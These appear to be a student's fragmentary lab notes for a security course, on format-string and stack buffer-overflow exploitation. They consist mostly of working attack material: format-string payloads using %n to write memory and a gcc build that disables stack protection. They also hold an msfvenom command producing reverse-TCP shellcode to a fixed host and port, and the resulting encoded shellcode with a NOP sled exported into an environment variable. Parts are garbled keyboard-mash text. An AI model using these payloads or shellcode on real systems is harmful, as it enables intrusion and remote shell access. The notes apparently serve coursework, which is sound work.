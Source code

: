%s.%x.%x.%x.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%n

%x.%x.%x.%x.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%n
%x.%x.%x.%x.%x.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%n
%x.%x.%x.%x.%x.%x.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%n
%x.%x.%x.%x.%x.%x.%x.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%n
%x.%x.%x.%x.%x.%x.%x.%x.%s


echo %x.%x.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%n > input


%x.%x.%x.%x.%x.%x.%x.%x.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%n

![[Pasted image 20250829002110.png]]
1448452524
1448452528
1448452516
1448452512

565561f9

1448436217



![[Pasted image 20250829002533.png]]
1448452512
%x.%x.%x.%x.%x.%x.%x.%x.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%n

FIT5003

test kalau misalkan dia itu cuma 1, 2, 3,4,5,6indoinseisneis;komasl;kmsksmalsmak




gcc -m32 -fno-stack-protector -z execstack -g -o stack stack.c


curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb >msfinstall && chmod 755 msfinstall && ./msfinstall


![[Pasted image 20250901134113.png]]


```bash
x86/shikata_ga_nai
```

msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.2.2.2 LPORT=4444 -f c -e x86/shikata_ga_nai



export SHELLCODE=$(python -c 'print("\x90"*200 + "<paste_your_shellcode_here>")')


export SHELLCODE=$(python3 -c 'print("\x90"*200 + "\xb8\x69\xaa\x09\x17\xda\xd9\xd9\x74\x24\xf4\x5f\x31\xc9\xb1\x12\x83\xef\xfc\x31\x47\x0e\x03\x2e\xa4\xeb\xe2\x81\x63\x1c\xef\xb2\xd0\xb0\x9a\x36\x5e\xd7\xeb\x50\xad\x98\x9f\xc5\x9d\xa6\x52\x75\x94\xa1\x95\x1d\x2d\x52\x64\xd2\x59\x50\x68\xfd\xc5\xdd\x89\x4d\x93\x8d\x18\xfe\xef\x2d\x12\xe1\xdd\xb2\x76\x89\xb3\x9d\x05\x21\x24\xcd\xc6\xd3\xdd\x98\xfa\x41\x4d\x12\x1d\xd5\x7a\xe9\x5e")')
